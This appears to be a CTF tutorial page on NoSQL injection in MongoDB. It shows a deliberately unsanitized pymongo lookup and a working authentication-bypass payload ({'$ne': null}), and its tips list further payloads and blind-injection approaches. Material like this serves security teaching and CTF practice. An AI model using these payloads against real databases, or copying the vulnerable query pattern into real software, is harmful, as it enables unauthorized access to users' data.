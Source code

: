 ```yaml
---
title: "NoSQL Injection"
description: "Exploit unsanitized NoSQL queries in MongoDB or similar databases to bypass authentication or extract documents."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["nosql", "mongodb", "injection", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand how crafted JSON input can manipulate NoSQL queries, leading to authentication bypass or data retrieval."
aliases: ["/web/nosql-injection/"]
slug: "nosql-injection"
toc: true
---
```


## Introduction

NoSQL databases like MongoDB rely heavily on JSON objects, which can be manipulated by attackers if input is not sanitized.

## Example (Python)

```python
from pymongo import MongoClient

def get_user(username):
    client = MongoClient('mongodb://localhost:27017/')
    db = client['users']
    query = {'username': username}
    return db.users.find(query)

username = input('Enter a username: ')
print(list(get_user(username)))
```

Injection:

```json
{"$ne": null}
```

Resulting query:

```json
{ "username": {"$ne": null} }
```

This bypasses user filtering and returns all results.

## Tips

- Input contexts to test: query filters, `$where` clauses, `$regex`, `$gt/$lt`.
- Use JSON-oriented payloads (`{"$ne": null}` or `{"$gt": ""}`).
- Escape or validate JSON structures before execution.
- In blind challenges, look for time-based payloads using heavy operations.
